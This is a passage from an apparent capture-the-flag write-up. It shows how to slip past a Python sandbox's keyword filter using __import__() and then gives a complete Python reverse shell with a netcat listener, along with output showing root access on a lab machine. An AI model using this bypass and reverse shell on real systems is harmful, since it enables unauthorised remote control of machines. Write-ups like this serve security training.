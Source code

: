 We can execute common python code, but when we try importing any module, we get an error:

<p align="center"><img src="files/importError.png"></p>

As you noticed, there is a filter that checks for some keywords and after playing with it for a little bit, I realized that the keywords are: “import “, “eval”, “exec” and “system”.

I tried a few things and I was able to import modules using `__import__()`, which is a python inbuilt function that helps to import modules in runtime.

Now that we can import modules, we can execute a python reverse shell to gain a shell. Here is the python reverse shell to execute. First open a listener (`rlwrap nc -lvnp 4444`) and then add your IP to the code and execute it:

~~~py
socket = __import__('socket')
os = __import__('os')
pty = __import__('pty')

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("<YOUR IP>",4444))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
pty.spawn("/bin/bash")
~~~

Now we have a root shell...!?

~~~
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.65.81] 60516
root@playgroundweb:~/app# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Flag 1
